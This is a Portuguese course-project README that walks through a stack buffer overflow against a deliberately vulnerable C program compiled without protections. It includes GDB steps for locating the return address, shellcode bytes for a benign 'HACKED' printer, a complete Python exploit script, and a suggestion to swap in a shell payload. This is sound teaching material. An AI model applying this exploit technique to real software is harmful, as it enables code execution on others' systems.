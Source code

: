 # Segurança de Software 2020

## 1 - HACKED VIRUS
### Descrição
Ataque por Buffer Overflow a um programa em C que lê ficheiro e escreve o seu conteúdo em memória.

#### Compilação
```bash
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack stack.c -o stack
```

#### Ferramentas utilizadas
* [GDB GEF](https://github.com/hugsy/gef) - Debbug
* [Python](https://www.python.org/) - Desenvolvimento do exploit
* [Objdump](https://sourceware.org/binutils/docs/binutils/objdump.html) - Visualização

#### Ficheiros auxiliares
* teste_stack_exec.c - Verificar compilação.
* findPrintf.c - Encontrar endereço da função printf.
* Virus.c - Para compilar o virus pretendido.

#### Passos
* Visualização do código fonte (stack.c)
```c
void foo(char *str, int s)
{
    char buffer[32];
    /* buffer overflow here */
    cpy(buffer, str, s);
}
```
* Causa erro
```bash
python -c 'print "A"*8*5' > smasher; ./stack
```
* Debbug (GDB)
```bash
gdb stack
```
Meter um BreakPoint no fim da função foo, antes de haver um retorno à main e correr.
```bash
gef> disas foo
```
```bash
gef> b * 0x0000000000401198
```
```bash
gef> run
gef> fin
```
Como se pode ver na imagem seguinte,  o $rip (0x0000000000401206) está a apontar para a posição de memória da função main, de forma a continuar o fluxo de programa normalmente. Vamos tentar perceber em que sitio da memoria este apontador está.

![Image 1](Lib/1.png)

 Vamos agora ver com mais atenção o conteúdo da stack, utilizando como referencia o $rdi.
 ```bash
gef> x/100x 0x00007fffffffdf90 - 32
```
Como podemos ver na imagem seguinte, encontrámos os nossos  32 "A"'s (0x41) na stack, será que encontramos também o endereço de retorno? Terá que conter, como já vimos, o endereço: 0x0000000000401206
Na imagem seguinte encontramos o nosso target!

![Image 2](Lib/2.png)

Assim sendo, podemos agora concluir que para escrever o nosso exploit de forma a que corra o nosso vírus, teremos que chegar à posição de retorno e escrever lá um endereço a nosso favor. Para além dos 32 bytes do buffer, temos ainda o $ebp com 8 bytes. sendo os próximos 8 bytes para o endereço de retorno. 

* Compilar virus
Vamos compilar o nosso virus e passá-lo para hexadécimal de forma a ser mais fácil a sua inserção no ficheiro.
```bash
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack virus.c -o virus
```
Agora vamos copiar o código assembly para um ficheiro.
```bash
objdump virus -d
```
Vamos então começar a escrever o nosso exploit em Python
```python
buf = ('A' * 32).encode() #41
ebp = ('B' * 8).encode()  #42
call_virus = b'\xc0\xdf\xff\xff\xff\x7f\x00\x00'

virus =  b'\x55\x48\x89\xe5\x48\x83\xec\x20'
virus += b'\x89\x7d\xec\x48\x89\x75\xe0\xc6'
virus += b'\x45\xf8\x48\xc6\x45\xf9\x41\xc6'
virus += b'\x45\xfa\x43\xc6\x45\xfb\x4b\xc6'
virus += b'\x45\xfc\x45\xc6\x45\xfd\x44\xc6'
virus += b'\x45\xfe\x0a\xc6\x45\xff\x00\x48'
virus += b'\x8d\x45\xf8\x48\xba\x20\xea\xe4'
virus += b'\xf7\xff\x7f\x00\x00\x48\x89\xc7'
virus += b'\xb8\x00\x00\x00\x00\xff\xd2\xeb'
virus += b'\xe6\x0f\x1f\x44\x00\x00\x00\x00'

exploit = (buf + ebp + call_virus + virus)

file_name = 'smasher'
f = open(file_name, 'wb') #write bytes
f.write(exploit)
f.close()
```

Vamos então ver se resultou.

```bash
python exploit.py
gdb stack
gef> run
#HACKED
#HACKED
#HACKED
#HACKED
#...
```
# EXTRA!

 No ficheiro exploit.py experimente correr uma shell!
 
 ```python
#exploit = (buf + ebp + call_virus + virus)
exploit = (buf + ebp + call_virus + shell)
 ```
